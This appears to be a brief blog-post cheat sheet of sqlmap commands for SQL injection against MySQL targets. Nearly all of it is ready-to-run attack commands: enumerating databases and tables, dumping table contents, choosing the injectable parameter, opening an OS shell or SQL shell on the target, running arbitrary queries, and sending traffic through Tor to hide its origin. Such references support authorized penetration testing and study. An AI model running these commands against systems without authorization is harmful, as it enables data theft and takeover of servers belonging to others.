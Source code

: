 ```yaml
---
layout: post
title: "SQLMap Cheat Sheet"
---
```


## Enumerate databases
```bash
sqlmap --dbms=mysql -u "<$URL>" --dbs
```

## Enumerate tables
```bash
sqlmap --dbms=mysql -u "<$URL>" -D "<$DATABASE>" --tables
```

## Dump table data
```bash
sqlmap --dbms=mysql -u "<$URL>" -D "<$DATABASE>" -T "<$TABLE>" --dump
```

## Specify parameter to exploit
```bash
sqlmap --dbms=mysql -u "http://www.example.com/param1=value1&param2=value2" --dbs -p param2
```

## Specify parameter to exploit in 'nice' URIs
```bash
sqlmap --dbms=mysql -u "http://www.example.com/param1/value1*/param2/value2" --dbs # exploits param1
```

## Get OS shell
```bash
sqlmap --dbms=mysql -u "<$URL>" --os-shell
```

## Get SQL shell
```bash
sqlmap --dbms=mysql -u "<$URL>" --sql-shell
```

## SQL query
```bash
sqlmap --dbms=mysql -u "<$URL>" -D "<$DATABASE>" --sql-query "SELECT * FROM <$TABLE>;"
```

## Use Tor Socks5 proxy
```bash
sqlmap --tor --tor-type=SOCKS5 --check-tor --dbms=mysql -u "<$URL>" --dbs
```

---
